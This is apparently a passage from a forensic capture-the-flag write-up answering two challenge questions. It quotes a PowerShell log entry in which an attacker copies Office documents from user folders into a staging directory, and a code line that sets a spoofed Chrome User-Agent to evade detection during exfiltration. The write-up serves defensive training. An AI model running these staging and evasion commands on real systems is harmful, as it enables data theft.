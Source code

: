 ```xml
<EventID Qualifiers="">4104</EventID>
<TimeCreated SystemTime="2021-05-06 17:31:56.769741"></TimeCreated>
<EventRecordID>22986</EventRecordID>
<Execution ProcessID="4064" ThreadID="4280"></Execution>
<Channel>Microsoft-Windows-PowerShell/Operational</Channel>
<Computer>win-host-3742319</Computer>
<Data Name="ScriptBlockText">$files = Get-ChildItem C:\Users -Recurse -Include *.*x -ErrorAction 'SilentlyContinue'; foreach ($file in $files) { cp $file.FullName c:\Windows\System32\poodleout\ }</Data>
```

Which gave me the staging directory.

#### Q24) The attacker ran a command to copy confidential data over to their staging directory. This command however only targeted files with specific file extensions. Have a look at the attached file DikBek_File_Extensions.txt. Which file extensions in the attached txt file would have been included in the attacker's copy command? Provide the extensions as comma-delimited, in alphabetical order. i.e. .JAVA,.MTW,.ZIP

Remember the very last question, I have this command:
```bash
$files = Get-ChildItem C:\Users -Recurse -Include *.*x -ErrorAction 'SilentlyContinue';
```

I crafted a non perfect regex to insert into my favorite text editor **Sublime Text** which simply did what does this command: `.(.*)x$`. It matches file extensions with an `x` at the end of their extension, it is to grab all documents known with the Microsoft Office suite such as `.xlsx`, `docx` and so on.

Applied to my case here, it matched these extensions: `.DOCX`, `.PPTX` and `.XLSX`.

#### Q27) For the data exfiltration, the attackers specified a custom browser User Agent in the command used, likely in an attempt to bypass detection by security tooling. What is the name of the browser they configured the user agent string to look like? Provide just the browser name as your answer.

From the previous question, I had this information regarding the headers:
```bash
$client.DefaultRequestHeaders.Add("User-Agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");
```

Hence, the User-Agent header value is:
```bash
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
```

From that, I guessed that it was a Chrome instance. Still, to be sure of what I was about to write as an answer, I preferred to double check with [this User-Agent parser online](https://developers.whatismybrowser.com/useragents/parse/#parse-useragent). It outputted me `Chrome 60 on Windows 10`, which gave me my answer.
